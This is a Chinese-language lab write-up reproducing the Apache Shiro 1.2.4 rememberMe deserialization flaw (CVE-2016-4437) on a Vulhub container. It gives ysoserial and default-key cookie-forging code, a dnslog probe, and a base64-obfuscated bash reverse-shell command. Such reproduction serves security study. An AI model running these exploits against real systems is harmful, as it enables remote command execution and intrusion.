 # Apache Shiro 1.2.4反序列化漏洞 CVE-2016-4437

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 环境搭建

Vulhub执行如下命令启动一个使用了Apache Shiro 1.2.4的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。

## 漏洞复现

### 方法1 Shiro默认密钥加密Payload

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

参考Vulhub，可以使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

发送rememberMe Cookie，即可成功执行`touch /tmp/success`。

### 方法2 命令行 Shiro_exploit

此处使用[Shiro_exploit](https://github.com/insightglacier/Shiro_exploit)进行复现，首先，检测漏洞是否存在：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "ping -c 2 shiro.xxxxx.ceye.io"
```

dnslog平台接收到请求，证明漏洞存在。

![image-20220301110544180](./images/202203011105220.png)

执行反弹shell语句：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}"
```

监听9999端口，接收反弹shell：

![image-20220301095455181](./images/202203010954296.png)

## 开源POC/EXP

- https://github.com/sv3nbeast/ShiroScan
- https://github.com/fupinglee/ShiroScan
- https://github.com/wyzxxz/shiro_rce_tool
- https://github.com/feihong-cs/ShiroExploit-Deprecated

